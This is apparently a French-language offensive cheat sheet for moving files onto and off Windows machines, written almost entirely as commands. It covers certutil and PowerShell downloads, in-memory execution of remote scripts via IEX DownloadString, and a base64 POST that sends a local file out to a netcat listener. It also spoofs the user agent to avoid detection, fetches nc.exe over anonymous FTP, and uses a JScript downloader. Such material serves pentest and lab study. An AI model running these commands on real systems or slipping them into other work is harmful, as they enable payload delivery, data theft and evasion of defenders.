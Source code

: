 #certutil 

```sh
certutil -split -f -urlcache http://192.168.81.128/file.ext
```

#powershell

```c
(New-Object System.Net.WebClient).DownloadFile('http://SERVER/file.ext', 'c:\temp\output_file.ext')
```

Téléchargée et exécutée en mémoire

```c
IEX (New-Object Net.WebClient).DownloadString('http://SERVER/file.ext')
```

```c
Invoke-WebRequest 'http://SERVER/file.ext' -UseBasicParsing | IEX
```

Invoke-WebRequest & Invoke-RestMethod

```c
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\temp\file.ext' -Encoding Byte))
Invoke-WebRequest -Uri 'http://SERVER:NETCAT_PORT' -Method POST -Body $b64

# Après avoir récupéré les données base64 avec Netcat, la charge utile peut être décodée.
echo <base64> | base64 -d -w 0 > output_file.ext
```

**Éviter la détection**
Changer le user agent et liste les User-Agent

```sh
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


Invoke-WebRequest 'http://SERVER/file.ext' -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\temp\output_file.ext"
```

#SMB
Mapper / Monter les disques

```sh
impacket-smbserver share . -smb2support
```

Monter le partage dans Ce PC

```c
net use Q: \\10.10.10.132\share 
```

Acceder au partage en CLI

```c
PS> pushd \\10.10.10.132\share
```

#FTP
Mettre ce contenu dans un fichier `ftp-script.txt`

```
open 10.10.10.32
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
```

Se connecter au FTP en utilisant le fichier `ftp-script.txt`

```sh
ftp -v -n -s:ftp-script.txt
```

#Javascript
Code dans un fichier `wget.js`

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```sh
cscript /nologo wget.js http://SERVER/file.ext output_file.ext
```
